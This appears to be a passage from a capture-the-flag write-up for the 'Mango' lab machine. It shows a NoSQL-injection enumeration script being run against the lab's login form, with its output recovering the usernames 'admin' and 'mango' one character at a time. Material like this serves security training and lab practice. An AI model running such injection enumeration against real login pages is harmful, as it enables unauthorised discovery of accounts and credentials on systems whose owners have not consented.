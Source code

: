 
```bash
$ python nosqli-user-pass-enum.py -u http://staging-order.mango.htb -up username -pp password -ep username -m POST
No pattern starts with '0'
No pattern starts with '1'
No pattern starts with '2'
No pattern starts with '3'
No pattern starts with '4'
No pattern starts with '5'
No pattern starts with '6'
No pattern starts with '7'
No pattern starts with '8'
No pattern starts with '9'
Pattern found that starts with 'a'
Pattern found: ad
Pattern found: adm
Pattern found: admi
Pattern found: admin
username found: admin
No pattern starts with 'b'
No pattern starts with 'c'
No pattern starts with 'd'
No pattern starts with 'e'
No pattern starts with 'f'
No pattern starts with 'g'
No pattern starts with 'h'
No pattern starts with 'i'
No pattern starts with 'j'
No pattern starts with 'k'
No pattern starts with 'l'
Pattern found that starts with 'm'
Pattern found: ma
Pattern found: man
Pattern found: mang
Pattern found: mango
username found: mango
No pattern starts with 'n'
No pattern starts with 'o'
No pattern starts with 'p'
No pattern starts with 'q'
No pattern starts with 'r'
No pattern starts with 's'
No pattern starts with 't'
No pattern starts with 'u'
No pattern starts with 'v'
No pattern starts with 'w'
No pattern starts with 'x'
No pattern starts with 'y'
No pattern starts with 'z'
No pattern starts with 'A'
No pattern starts with 'B'
No pattern starts with 'C'
No pattern starts with 'D'
No pattern starts with 'E'
No pattern starts with 'F'
No pattern starts with 'G'
No pattern starts with 'H'
No pattern starts with 'I'
No pattern starts with 'J'
No pattern starts with 'K'
No pattern starts with 'L'
No pattern starts with 'M'
No pattern starts with 'N'
```